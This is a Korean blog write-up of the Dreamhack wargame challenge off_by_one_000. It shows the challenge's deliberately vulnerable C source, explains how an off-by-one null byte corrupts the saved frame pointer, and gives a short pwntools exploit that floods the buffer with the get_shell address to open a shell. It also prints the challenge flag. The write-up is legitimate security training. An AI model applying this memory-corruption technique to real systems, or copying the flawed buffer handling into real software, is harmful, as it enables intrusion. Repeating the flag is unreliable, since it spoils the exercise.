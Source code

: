 ```yaml
---
layout: post
title: dreamhack wargame off_by_one_000 write-up
---
```


<br>
문제는 [dreamhack](https://dreamhack.io/wargame/challenges/9/)에서 받으실 수 있습니다.

----

<br>
{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[256];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name)); //FPO 취약점 발생

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}
{% endhighlight %}

메인에서 read 함수를 통해 cp_name에 sizeof로 사이즈를 정해주고 입력을 받는다.<br>
그러나 입력을 받을 때 마지막에 널 문자를 자동으로 넣어주기 때문에 sizeof(cp_name - 1) 이렇게 입력을 받았어야 한다.
<br>그러니 FPO취약점이 존재한다. 익스플로잇을 해보자.
<br>
<br>
FPO기법으로 인해 cpy함수의 SFP의 1byte가 NULL 바이트로 변조된다.

<br>
<br>
gdb를 통해 SFP가 어떻게 변조되는지 확인해보자.
![img1](/assets/img3.png)

cp_name의 변수 위치는 ebp - 0x100이다.<br>
ebp - 0x100의 주소 값을 확인해보자.

<br>
![img2](/assets/img4.png)
이제 cp_name 변수의 끝 부분이 NULL Byte(\x00)로 잘 변조되었는지 확인해보자.
<br>
![img3](/assets/img5.png)
0xffffd490의 값이 0xffffd400으로 변조되었다.<br>
<br>
이제 0xffffd400을 get_shell 함수의 주소로 바꿔주기만 하면 되는데<br>
주소를 완벽하게 찾아갈 필요 없이 cp_name을 모두 get_shell 함수의 주소로 바꿔주기만 하면 쉘이 실행될 수 있다.
<br><br>
get_shell 함수의 주소를 알아보자.
![img4](assets/img6.png)
이제 공격 코드를 짜 보자.

{% highlight python linenos %}
from pwn import *

p = remote('host1.dreamhack.games','19249')
#p = process('./off_by_one_000')

payload = '\xdb\x85\x04\x08' * (256 / 4)

p.sendline(payload)
p.interactive()
{% endhighlight %}

![img5](/assets/img7.png)
성공적으로 쉘을 획득했다.
<br>
FLAG : DH{fef043d0dbe030d01756c23b78a660ae}
